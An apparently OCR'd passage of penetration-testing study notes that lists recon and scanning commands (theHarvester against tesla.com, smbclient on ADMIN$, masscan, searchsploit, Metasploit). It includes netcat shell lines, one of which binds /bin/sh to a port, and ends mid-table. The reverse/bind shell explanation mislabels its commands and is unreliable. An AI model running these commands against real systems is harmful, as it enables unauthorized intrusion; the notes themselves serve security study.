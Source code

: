 ```theharvester -d tesla.com -l 500 -b google ```
**metasploit**

```msfconsole ```


**smbclient**

```smbclient -L \\\\192.168.57.134\\ ```

  * -L this flag is used for listing files 

```smbclient  \\\\192.168.57.134\\ADMIN$ ```


### Enumerating SSH


```ssh 192.168.57.134 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc ```


### Researching Potential Vulnerabilities

**searchsploit**

```searchsploit samba 2.2 ```

## Additional Scanning Tools


### Scanning with Masscan

* really fast port scanner

```masscan -p1-65535 --rate 1000 192.168.57.134 ```

### Scanning with Metasploit


```portscan ```

```use portscan/syn ```

### Scanning with Nessus 

* it is a vulnerability scanner


## Exploitation Basics

### Reverse Shells vs Bind Shells


* reverse shell means : a victim connect to us
* **netcat reverse shell**

  ```nc -nlvp 4444 ```
 
  ``` nc -nlvp 4444 -e /bin/sh ```
  
* in bind shell : we connect to the target 

### Staged vs Non-Staged Payloads

non -staged | staged
------------|-------
```